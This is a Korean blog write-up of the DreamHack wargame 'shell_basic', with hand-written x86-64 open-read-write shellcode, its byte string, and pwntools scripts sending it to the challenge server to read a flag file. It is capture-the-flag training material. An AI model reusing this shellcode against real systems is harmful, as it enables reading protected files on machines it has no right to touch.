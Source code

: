 ```yaml
---
title:  "[DreamHack] shell_basic 풀이"
categories:
    - Pwnable
tags:
    - dreamhack.io
toc: true
published: true
---
```

[DreamHack] shell_basic 풀이

# Environments

|Name|Config|
|:---:|:---|
|CPU|Intel Core i7 4770|
|Architecture|Intel64|
|OS|Ubuntu 16.04.7 LTS|
|Tools|- Pwntools|

# Problem
![](/assets/DreamHack/shell-basic-00.png)
```
Print `shellcode: `
Get Input
```

- URL: [dreamback.io/wargame/challenges/410](https://dreamhack.io/wargame/challenges/410/)
- 요약: `shell_basic` 및 서버로부터 ORW를 통해 flag 찾기

# File Format
![](/assets/HCTF/shell-basic-01.png)

> x86 ELF LSB Executable, Not Stripped, Not UPX Packed

# checksec

|Name|Status|
|:---:|:---|
|CANARY|disabled|
|FORTIFY|disabled|
|NX|ENABLE|
|PIE|ENABLE|
|RELRO|FULL|

- Can't overwrite GOT, NX Bypass with ROP

# Solution
Shell Code 와 친숙해지고, ORW에 대한 전반적인 이해를 위한 간단한 문제 같다.

공부한 내용을 바탕으로 문제에서 요구하는 것을 짜보았다. ASCII 코드 옮기는게 가장 고되었다.

## shell_basic.asm
```
section .text
global _start
_start:
    ; Push and Open
    mov rax, 0x676E6F6F6F6F6F6F ; push 'oooooong'
    push rax
    mov rax, 0x6C5F73695F656D61 ; push 'ame_is_l'
    push rax
    mov rax, 0x6E5F67616C662F63 ; push 'c/flag_n'
    push rax
    mov rax, 0x697361625f6c6c65 ; push 'ell_basi'
    push rax
    mov rax, 0x68732f656d6f682f ; push '/home/sh'
    push rax
    mov rdi, rsp    ; rdi = "/home/shell_basic/flag_name_is_loooooong"
    xor rsi, rsi    ; rsi = 0 ; RD_ONLY
    xor rdx, rdx    ; rdx = 0
    mov rax, 2      ; rax = 2 ; syscall_open
    syscall         ; open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL)

    ; Read, len 
    mov rdi, rax      ; rdi = fd, rdi has len value from Open syscall
    mov rsi, rsp
    sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
    mov rdx, 0x30     ; rdx = 0x30     ; len
    mov rax, 0x0      ; rax = 0        ; syscall_read
    syscall           ; read(fd, buf, 0x30)

    ; Write
    mov rdi, 1        ; rdi = 1 ; fd = stdout
    mov rax, 0x1      ; rax = 1 ; syscall_write
    syscall           ; write(fd, buf, 0x30)

    ; Exit
    mov rax, 0x3C     ; rax = 60
    mov rdi, 0        ; rdi = 0
    syscall           ; exit
```

## shell_basic.o
asm 파일이 완성되었다면 이제 `.o` 파일로 기계어화 시켜야 한다.

`nasm -f elf64 shell_basic.asm` 명령을 통해 가능 하다.

## shell_basic.bin
`objcopy --dump-section .text=shell_basic.bin shell_basic.o` 명령을 통해 Byte Code 화 한다.

## exevc Shell Code
![](/assets/DreamHack/shell-basic-02.png)

이제 나온 값을 열심히 필요하지 않은 것들을 쳐낸다.

```
\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbf\x00\x00\x00\x00\x0f\x05
```

# Exploit Code
```
context.log_level       = "DEBUG"
context.arch            = "amd64"

p = remote("host1.dreamhack.games", 22968)

shell = b"\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbf\x00\x00\x00\x00\x0f\x05"

p.recvuntil("shellcode: ")
p.sendline(shell)
p.interactive()
```

![](/assets/DreamHack/shell-basic-03.png)

는 실패하였다. 알 수 없는 값이 반환 되었다. 이거 딱 `400` 에러 느낌이다.

# Exploit Code #2
[Pwntools Docu](https://docs.pwntools.com/en/stable/) 의 힘을 빌려 `shellcraft` 를 다시 써본다.

```
from pwn import *
context.log_level       = "DEBUG"
context.arch            = "amd64"

p = remote("host1.dreamhack.games", 22968)
fpath = "/home/shell_basic/flag_name_is_loooooong"

shell = shellcraft.open(fpath)
shell += shellcraft.read("rax", "rsp", "0x30")
shell += shellcraft.write(1, "rsp", "0x30")

p.recvuntil("shellcode: ")
p.sendline(asm(shell))
p.interactive()
```

![](/assets/DreamHack/shell-basic-04.png)

`shellcraft`의 Assembling 보면 처음에 `push 1`을 한다. 왜 해야하는가에 대한 의문이 들어 지인을 통해 알게 된 결과, `rsp` 와 opcode 간 구분을 위하여 `NULL` 이나 `SOH` 같은 값을 넣어 구분을 해야 한다고 한다. 바람직 한 것은 `NULL` 로 알려주는 것.

# Exploit Code #3
따라서 `shell_basic.asm` 파일에 Stack 에 `push 0x00` 을 넣고 나온 byte code를 보면 `\x6a\x00` 를 추가한다.

```
context.log_level       = "DEBUG"
context.arch            = "amd64"

p = remote("host1.dreamhack.games", 22968)

shell = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbf\x00\x00\x00\x00\x0f\x05"

p.recvuntil("shellcode: ")
p.sendline(shell)
p.interactive()
```

# Result
![](/assets/DreamHack/shell-basic-05.png)

드디어 정상적인 값이 돌아왔다. `NULL`을 놓쳐서 일요일을 왜 허비하였는가 공허.